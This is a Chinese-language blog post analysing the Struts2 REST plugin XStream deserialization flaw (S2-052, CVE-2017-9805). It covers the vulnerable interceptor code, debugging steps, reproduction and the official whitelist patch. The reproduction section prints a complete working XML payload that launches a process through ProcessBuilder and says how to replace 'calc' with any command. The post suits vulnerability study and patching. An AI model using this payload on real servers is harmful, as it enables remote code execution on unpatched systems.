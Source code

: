 ```yaml
---
layout: post
title:  "Struts2-052漏洞分析"
date:   2017-09-08 10:02:01 +0800
categories: 漏洞分析
tag: 代码执行漏洞
---
```


* content
{:toc}


![strust2]({{ '/styles/images/struts2-052/strust2.jpg' | prepend: site.baseurl  }})

## 1.&emsp;漏洞描述 ##

* 漏洞描述：Struts2 REST插件的XStream组件存在反序列化漏洞，使用XStream组件对XML格式的数据包进行反序列化操作时，未对数据内容进行有效验证，存在安全隐患，可被远程攻击。
* 漏洞编号：CVE-2017-9805
* 漏洞作者：lgtm.com的安全研究员
* 影响版本：Version 2.5.0 to 2.5.12 和 Version 2.3.0 to 2.3.33
* 漏洞等级：高危

## 2.&emsp;漏洞简介 ##

-------|----
Who should read this|All Struts 2 developers and users
Impact of vulnerability|A RCE attack is possible when using the Struts REST plugin with XStream handler to deserialise XML requests
Maximum security rating|Critical
Recommendation|Upgrade to Struts 2.5.13 or Struts 2.3.34
Affected Software|Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12
Reporter|Man Yue Mo <mmo at semmle dot com> (lgtm.com / Semmle). More information on the lgtm.com blog: https://lgtm.com/blog
CVE Identifier|CVE-2017-9805


## 3.&emsp;漏洞分析 ##

### 3.1&emsp;漏洞说明 ###

&emsp;&emsp;本次漏洞触发点是REST插件在解析请求中的xml文件时，调用了XStreamHandler，传入的数据会被默认进行反序列化，如果当传入的xml是个经过XStream序列化的恶意对象时，便造成反序列化漏洞。

### 3.2&emsp;漏洞原理分析 ###

&emsp;&emsp;本次漏洞的成因由两部分组成，一个是 Struts2 REST插件(struts2-rest-plugin-2.x.jar)本身没有对进入的数据进行安全检查，导致攻击者可以传入恶意的xml对象可以传入到XStream里。另一个是XStream在反序列化传入的xml造成的远程代码执行。

关键代码在org.apache.struts2.rest.ContentTypeInterceptor里。

	 public String intercept(ActionInvocation invocation) throws Exception {
	        HttpServletRequest request = ServletActionContext.getRequest();
	        ContentTypeHandler handler = selector.getHandlerForRequest(request);
	        
	        Object target = invocation.getAction();
	        if (target instanceof ModelDriven) {
	            target = ((ModelDriven)target).getModel();
	        }
	        
	        if (request.getContentLength() > 0) {
	            InputStream is = request.getInputStream();
	            InputStreamReader reader = new InputStreamReader(is);
	            handler.toObject(reader, target);
	        }
	        return invocation.invoke();
	    }

**ContentTypeHandler handler = selector.getHandlerForRequest(request);** 通过request数据获取执行方法：org.apache.struts2.rest.handler.XStreamHandler

**handler.toObject(reader, target);** 对获取到的序列化的xml数据进行反序列化操作，在这一阶段将序列化的恶意POC进行反序列化操作并造成代码执行。

这里我们直接断点打在上文说的两个地方，用恶意payload进行攻击。


![strust2]({{ '/styles/images/struts2-052/1.png' | prepend: site.baseurl  }})

我们可以看到整个的调用栈，找到断点处，f5进入断点逻辑，可以看到在标记处获取Content-Type的值为：application/xml。

![strust2]({{ '/styles/images/struts2-052/2.png' | prepend: site.baseurl  }})

继续debug，可以看到根据我们获取到的content-type值从而得到我们代码执行的调用栈地址：

![strust2]({{ '/styles/images/struts2-052/3.png' | prepend: site.baseurl  }})

指定了我们的处理方法，继续断点到handler.toObject(reader, target);处：

![strust2]({{ '/styles/images/struts2-052/4.png' | prepend: site.baseurl  }})

f5进去toObject函数方法，继续执行，在XStreamHanler.toObject调用了XStream的fromXml，从而进入反序列化流程：

![strust2]({{ '/styles/images/struts2-052/5.png' | prepend: site.baseurl  }})

继续执行，看到反序列化函数unmarshal，在这个函数执行时没有进行数据安全检查，导致远程代码执行。

![strust2]({{ '/styles/images/struts2-052/6.png' | prepend: site.baseurl  }})

返回执行结果：

![strust2]({{ '/styles/images/struts2-052/7.png' | prepend: site.baseurl  }})

## 4.&emsp;漏洞复现 ##

1. 通过网上下载含有struts2-rest-plugin-2.5.12.jar版本的官方环境[struts2-rest-showcase-2.5.12.war](https://github.com/yaofeifly/Struts2-052-POC "https://github.com/yaofeifly/Struts2-052-POC")。
2. 将下载的war包通过eclipse导入到工程中，File--->Import---->war file。
	
	![strust2]({{ '/styles/images/struts2-052/8.png' | prepend: site.baseurl  }})
3. 需要注意的是，由于javax.imageio的依赖关系，我们的环境的jdk版本需要是jdk8以上，jdk8某些低版本也是不行的，本文作者的版本是jdk8_111，后续的一些验证都是在这个版本上做的。
4. 启动工程，然后通过burpsuite进行抓包，然后Send to Reapeater 进行数据包篡改。

	![strust2]({{ '/styles/images/struts2-052/9.png' | prepend: site.baseurl  }})

5. 主要POC为：

		<map> 
		<entry> 
		<jdk.nashorn.internal.objects.NativeString> 
		<flags>0</flags> 
		<value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"> 
		<dataHandler> 
		<dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
		<is class="javax.crypto.CipherInputStream"> 
		<cipher class="javax.crypto.NullCipher"> 
		<initialized>false</initialized> 
		<opmode>0</opmode> 
		<serviceIterator class="javax.imageio.spi.FilterIterator"> 
		<iter class="javax.imageio.spi.FilterIterator"> 
		<iter class="java.util.Collections$EmptyIterator"/> 
		<next class="java.lang.ProcessBuilder"> 
		<command> 
		<string>calc</string> 
		</command> 
		<redirectErrorStream>false</redirectErrorStream> 
		</next> 
		</iter> 
		<filter class="javax.imageio.ImageIO$ContainsFilter"> 
		<method> 
		<class>java.lang.ProcessBuilder</class> 
		<name>start</name> 
		<parameter-types/> 
		</method> 
		<name>foo</name> 
		</filter> 
		<next class="string">foo</next> 
		</serviceIterator> 
		<lock/> 
		</cipher> 
		<input class="java.lang.ProcessBuilder$NullInputStream"/> 
		<ibuffer></ibuffer> 
		<done>false</done> 
		<ostart>0</ostart> 
		<ofinish>0</ofinish> 
		<closed>false</closed> 
		</is> 
		<consumed>false</consumed> 
		</dataSource> 
		<transferFlavors/> 
		</dataHandler> 
		<dataLen>0</dataLen> 
		</value> 
		</jdk.nashorn.internal.objects.NativeString> 
		<jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/> 
		</entry> <entry> 
		<jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> 
		<jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> 
		</entry> 
		</map>

**注意事项：** 

1. 注意如果数据包请求方式为GET的话需要修改为POST请求方式。
2. 注意修改Content-Type的值为：application/xml。
3. 该POC为windows服务器上弹出计算器payload,若想修改为其他执行payload，将`<string>calc</string>	`中的calc替换为你想执行的命令，空格用多个 `<string></string>	`标签嵌套。

## 5.&emsp;修复方案 ##

### 5.1&emsp;补丁分析 ###

对struts2-rest-plugin-2.5.12.jar中的struts-plugin.xml进行分析，可以看到XStreamHanler就是Content-Type:xml的默认处理句柄，而且可以看出xml是默认支持格式，这也就是说存在rest插件就会存在XStream的反序列化漏洞。

![strust2]({{ '/styles/images/struts2-052/10.png' | prepend: site.baseurl  }})

通过对比[官方的补丁](https://github.com/apache/struts/commit/19494718865f2fb7da5ea363de3822f87fbda264 "https://github.com/apache/struts/commit/19494718865f2fb7da5ea363de3822f87fbda264"),我们可以看到最主要的修复逻辑在plugins/rest/src/main/java/org/apache/struts2/rest/handler/XStreamHandler.java中：

![strust2]({{ '/styles/images/struts2-052/11.png' | prepend: site.baseurl  }})

在官方的修复方案中,主要就是将xml中的数据白名单化，把Collection和Map，一些基础类，时间类放在白名单中，这样就能阻止XStream反序列化的过程中带入一些有害类。

### 5.2&emsp;修复建议 ###

1. Version 2.3.0 to 2.3.33升级到Struts 2.3.34版本
2. Version 2.5.0 to 2.5.12升级到Struts 2.5.13版本